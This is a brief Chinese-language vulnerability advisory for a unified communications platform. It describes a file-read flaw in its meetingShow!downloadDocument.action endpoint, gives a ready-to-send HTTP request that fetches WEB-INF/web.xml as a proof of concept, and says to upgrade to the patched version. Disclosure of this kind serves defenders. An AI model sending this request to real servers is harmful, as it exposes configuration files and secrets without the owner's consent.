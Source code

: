 **一、漏洞简述**

统一通信平台是将将视频,语音、传真、电子邮件、WEB,移动短消息和多媒体数据等所有信息类型集合为一体，可用传统电话、IP电话,传真、手机、3G手机,PC、掌上电脑、Outlook,PDA等通信设备中的任何一种接收，在有线、无线、互联网之间架构起一个信息互联通道。其meetingShow!downloadDocument.action接口存在文件读取漏洞，攻击者可通过该漏洞获取到系统的敏感信息。

**二、漏洞检测poc**

```yaml
GET /acenter/meetingShow!downloadDocument.action?filePath=WEB-INF/web.xml HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36
Accept-Encoding: gzip, deflate
Connection: close
```

**四、修复**

官方已更新补丁，请升级至最新版本。

官网地址：http://www.iactive.com.cn/